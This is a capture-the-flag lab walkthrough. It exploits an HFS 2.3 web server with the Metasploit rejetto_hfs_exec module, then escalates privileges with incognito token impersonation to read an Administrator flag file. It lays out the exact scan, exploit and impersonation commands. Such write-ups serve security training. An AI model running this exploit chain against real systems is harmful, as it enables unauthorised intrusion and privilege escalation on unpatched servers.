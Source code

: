 


Here are the summary steps in bullet points:

1. Step 1: Check the target IP address.
    
    - Command: `cat /root/Desktop/target`
2. Step 2: Run an initial Nmap scan against the target IP.
    
    - Command: `nmap 10.0.28.7`
3. Step 3: Perform a detailed Nmap scan to determine version information on port 80.
    
    - Command: `nmap -sV -p 80 10.0.28.7`
4. Step 4: Search for the exploit module for HFS 2.3 using searchsploit.
    
    - Command: `searchsploit hfs`
5. Step 5: Exploit the HFS server using the Metasploit module.
    
    - Commands:
        - Start Metasploit: `msfconsole -q`
        - Use HFS exploit module: `use exploit/windows/http/rejetto_hfs_exec`
        - Set the target IP: `set RHOSTS 10.0.28.7`
        - Exploit the target and obtain local service access: `exploit` and `getuid`
6. Step 6: Attempt to read the flag file located on the Administrator's Desktop.
    
    - Command: `cat C:\\Users\\Administrator\\Desktop\\flag.txt`
7. Step 7: Realize that flag access is restricted. Load the "incognito" plugin and list available tokens.
    
    - Commands:
        - Load the "incognito" plugin: `load incognito`
        - List available tokens: `list_tokens -u`
8. Step 8: Discover the Administrator user token, impersonate it, and read the flag.
    
    - Commands:
        - Impersonate Administrator's token: `impersonate_token ATTACKDEFENSE\\Administrator` and check the user: `getuid`
        - Read the flag: `cat C:\\Users\\Administrator\\Desktop\\flag.txt`
9. You have successfully obtained the flag:
    
    - Flag: `x28c832a39730b7d46d6c38f1ea18e12`